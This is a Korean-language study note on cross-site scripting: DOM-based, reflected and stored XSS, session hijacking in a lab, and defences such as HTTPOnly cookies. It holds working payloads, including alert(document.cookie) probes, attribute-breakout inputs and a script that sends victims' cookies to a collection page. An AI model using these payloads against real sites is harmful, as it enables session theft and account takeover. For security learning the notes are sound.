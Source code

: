 ```yaml
---
CMDS: Security
관련 문서:
  - "[[109 Security]]"
tags:
  - "#XSS"
---
```


## Cross-Site Script

- 사용자에게 행해지는 공격
- CSS가 기존에 사용되던 언어이기 때문에 XSS로 표기
- A사이트에서 B사이트로 이동될때 행해지는 공격

  

#### 공격 대상
1. 기능적인 공격 대상
    - 사용자 입력 값이 필요한 부분이 존재한다면 공격 대상이 될 수 있음
2. 엔드 포인트 단의 공격 대상
    - 서버가 아닌 사용자를 대상으로 공격 진행
    - 기업의 보안이 강화됨에 따라 서버보다 클라이언트의 공격이 잦아짐

#### 공격 유형
1. 피싱
    - 악의적인 사용자가 유도한 사이트로 리다이렉션
2. 악성코드 유포
    - 강제 악성코드 다운로드 및 실행 후 악성코드 설치
    - Drive-by Download
3. XSS Tunnel + XSS Shell
    - 사용자 웹 브라우저 권한 획득
4. 세션 하이재킹
    - 사용자 세션을 탈취 후 세션 재사용. 권한 탈취
5. CSRF
    - 악성 스크립트에 의해 악의적인 사용자가 의도한 행위를 함

#### 공격 기법

1. DOM-Based XSS
    
    - ==웹 브라우저==에서 사용자 입력 값을 통해 동적 페이지 구성
    - 사용자 정보를 URL에서 추출하여 페이지에서 출력되도록 함
    
    ![[90. Settings/92. Attachments/Untitled 7.png|Untitled 7.png]]
    
2. Reflected XSS
    
    - ==서버 측==에서 사용자 입력 값을 통한 동적 페이지 구성
    
    ![[90. Settings/92. Attachments/Untitled 1 2.png|Untitled 1 2.png]]
    
3. Stored XSS
    
    - ==데이터베이스==에 저장된 데이터를 통한 동적 페이지 구성
    
    ![[90. Settings/92. Attachments/Untitled 2 3.png|Untitled 2 3.png]]
    
      
    

실습

XSS 취약성 확인 방법

alert()

confirm()

prompt()

1. DOM-Based XSS
    
    innerHTML에서는 출력이 안되지만, document.write()에서는 출력 가능
    
    `<script>alert(document.cookie)</script>`
    
    `<img src=”” onerror=”alert(document.cookie)”>`
    
    웹 브라우저가 스크립트를 불러오면서 악성 스크립트가 불러지게 됨
    
    ![[90. Settings/92. Attachments/Untitled 3 2.png|Untitled 3 2.png]]
    
2. Reflected XSS
    
    공격자가 보낸 문자가 다시 돌아와 출력 되면 XSS공격이 가능할 수 있음
    
    ![[90. Settings/92. Attachments/Untitled 4 2.png|Untitled 4 2.png]]
    
    ![[90. Settings/92. Attachments/Untitled 5 2.png|Untitled 5 2.png]]
    
    ![[90. Settings/92. Attachments/Untitled 6 2.png|Untitled 6 2.png]]
    
3. Stored XSS
    
    게시글이나 댓글 등 데이터베이스 상에 악성코드를 심는 방식
    
    ![[90. Settings/92. Attachments/Untitled 7 2.png|Untitled 7 2.png]]
    
    게시글 클릭 시 다음과 같은 화면 출력
    
    ![[Untitled 8.png]]
    
      
    

세션 하이재킹에 대한 이해와 공격 원리

session : 사용자를 식별할 수 있는 상태 관리

→ 세션을 탈취당하면 해커가 다른사람인 척 행동하는게 가능 (아이디, 패스워드 없이 계정 도용 가능)

![[Untitled 9.png]]

  

실습

공격자가 session을 탈취하기 위해서는 게시글이나 댓글 등을 통해 게시판을 사용하는 유저가 이 게시글을 볼 때 세션 정보를 가져오도록 함

→ <script>location.href="http://127.0.0.1/www/session.php?session="+document.cookie</script>

1. 게시판에 세션을 탈취하기 위한 글 설정
    
    ![[Untitled 10.png]]
    
    1-2. 사용자가 세션이 넘어갔다는 사실을 모르게 다시 작성
    
    ![[Untitled 11.png]]
    
2. 다른 사용자가 해당 글을 볼 시 세션 정보가 넘어감
    
    ![[Untitled 12.png]]
    
3. 응답 메세지 해더에 set-cookie값을 얻어온 세션 값으로 대체
    
    ![[Untitled 13.png]]
    
    ⇒
    
    ![[Untitled 14.png]]
    
4. 이후 로그인 정보가 바뀌어져 있는 것을 확인할 수 있음
    
    ![[Untitled 15.png]]
    
    - 웹 브라우저 개발자모드에서도 세션 변경 가능
        
        ![[Untitled 16.png]]
        
          
        

마이페이지에서의 XSS 공격

html이 어떻게 작성되었는지 가정

<input type=”text” class=”form-control” name=”name” placeholder=”Name Input” value=”해커”><script>alert(document.cookie);</script>”>

  

1. 사용자 이름을 바꾸어 공격 실행

![[Untitled 17.png]]

→ 마이페이지에 들어갈때마다 세션 값이 나오는것을 확인할 수 있음

  

꺽쇠가 들어가지 못하는 경우 ⇒ 더블쿼터는 입력 가능해야 함 → 이벤트 핸들러 이용

<input type=”text” class=”form-control” name=”name” placeholder=”Name Input” value=”해커” onfocus=”alert(document.cookie)” autofocus=””>

  

대응방안

보안과 서비스가 반비례하기 때문에 XSS취약점은 대응하기 까다로움

XSS공격을 위해서는 더블쿼터, 꺽쇠가 반드시 필요

![[Untitled 18.png]]

사용자 입력 값의 용도 파악 후 각각 용도에 맞게 대응

  

보안 라이브러리

![[Untitled 19.png]]

  

세션 하이재킹 막는 방법

1) XSS 방어

2) HTTPOnly 헤더 적용 - document.cookie 객체 접근 불가능

3) 세션 발급 시 인증 IP 넣기(IP 검증) → 페이지 요청이 들어올 때마다 IP 검증을 해야 함